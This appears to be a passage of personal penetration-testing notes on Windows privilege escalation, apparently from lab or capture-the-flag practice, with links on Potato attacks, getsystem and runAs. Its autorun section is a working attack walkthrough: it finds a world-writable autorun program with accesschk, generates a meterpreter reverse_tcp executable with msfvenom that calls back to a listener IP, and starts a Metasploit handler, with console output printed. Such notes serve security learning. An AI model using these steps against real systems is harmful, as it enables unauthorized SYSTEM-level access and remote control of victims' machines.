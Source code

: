https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/

https://github.com/ohpe/juicy-potato

## getsystem

https://www.cobaltstrike.com/blog/what-happens-when-i-type-getsystem/

## runAs

https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)

## autorun

sysinternals "autorun64" -> shows autorun software

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

```
sysinternals "accesschk64.exe -wvu" 
```

-> shows files with everyone access

```
c:\users\user\desktop\tools\accesscheck\accesschk64.exe -wvu "c:\program files\autorun program"

RW everyone
	FILE_ALL_ACCESS
```

We need to find a file that we can overwrite, then we replace it with some msfvenom stuff

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.8.147.132 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

start listener:

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_
[-] The value specified for payload is not valid.
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.8.147.132
lhost => 10.8.147.132
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```